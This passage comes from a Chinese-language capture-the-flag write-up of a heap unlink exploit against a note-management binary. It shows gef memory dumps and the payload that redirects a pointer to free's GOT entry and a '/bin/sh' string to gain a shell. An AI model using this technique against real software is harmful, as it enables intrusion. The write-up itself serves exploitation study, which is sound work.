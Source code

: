 ```c
0x14d79a0:	0x0000000000000000	0x0000000000000000
0x14d79b0:	0x4343434343434343	0x0000000000020651  => top chunk 
0x14d79c0:	0x4343434343434343	0x4343434343434343
0x14d79d0:	0x00000000000001b0	0x0000000000020631 
0x14d79e0:	0x4444444444444444	0x4444444444444444
```
此时 `ptr table`:
```c
gef➤  x/16gx 0x00000000014d6000
0x14d6000:	0x0000000000000000	0x0000000000001821
0x14d6010:	0x0000000000000100	0x0000000000000001
0x14d6020:	0x0000000000000001	0x0000000000000180
0x14d6030:	0x00000000014d7830	0x0000000000000000
0x14d6040:	0x0000000000000000	0x00000000014d78c0
0x14d6050:	0x0000000000000000	0x0000000000000000
0x14d6060:	0x00000000014d7950	0x0000000000000000
0x14d6070:	0x0000000000000000	0x00000000014d79e0
```
如果此时我们 `delete 1` 就会判断 `pre_insue` 等位，与前面的 `chunk 0 `进行合并。得到` 0x80+0x9`0 大小的 `bin`，放到 `unsorted bin`中。 合并的时候进行了 `unlink` 操作，`chunk 0` 的 `ptr` 修改成了 `&ptr[0]-0x18` 的地方。
```c 
gef➤  x/16gx 0x00000000014d6000
0x14d6000:	0x0000000000000000	0x0000000000001821
0x14d6010:	0x0000000000000100	0x0000000000000000
0x14d6020:	0x0000000000000001	0x0000000000000180 =>chunk 0 flag | chunk 0 size 
0x14d6030:	0x00000000014d6018	0x0000000000000000 => ptr[0] = &ptr[0]-0x18
0x14d6040:	0x0000000000000000	0x00000000014d78c0
0x14d6050:	0x0000000000000000	0x0000000000000000
0x14d6060:	0x00000000014d7950	0x0000000000000000
0x14d6070:	0x0000000000000000	0x00000000014d79e0
```
这个时候就很简单啦
我们 `edit chunk 0`,就是修改 `&ptr[0]-0x18 `指向的内容，可以修改 `ptr[0]`之类的   
写入内容 `：p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)`    
就把 `ptr[0]`改为了 `free_got`,同时将 `chunk 0` 的 `flag` 设为 `1，size` 设为 `0x8`; 否则下次 `edit` `时，size` 不匹配会进行 `realloc`。将 `chunk 1 ptr` 改为 `/bin/sh` 字符串的地址
可以来看一下写入的内容  
```c
gef➤  x/16gx 0x14d6010
0x14d6010:	0x0000000000000100	0x0000000000000080
0x14d6020:	0x0000000000000001	0x0000000000000008
0x14d6030:	0x0000000000602018	0x4141414141414141 
0x14d6040:	0x4141414141414141	0x00007f13b0022d57 
0x14d6050:	0x4141414141414141	0x4141414141414141
0x14d6060:	0x4141414141414141	0x4141414141414141
0x14d6070:	0x4141414141414141	0x4141414141414141
gef➤  x/16gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007f13aff1a4f0	0x00007f13aff05690
gef➤  x/16s 0x00007f13b0022d57
0x7f13b0022d57:	"/bin/sh"  
```

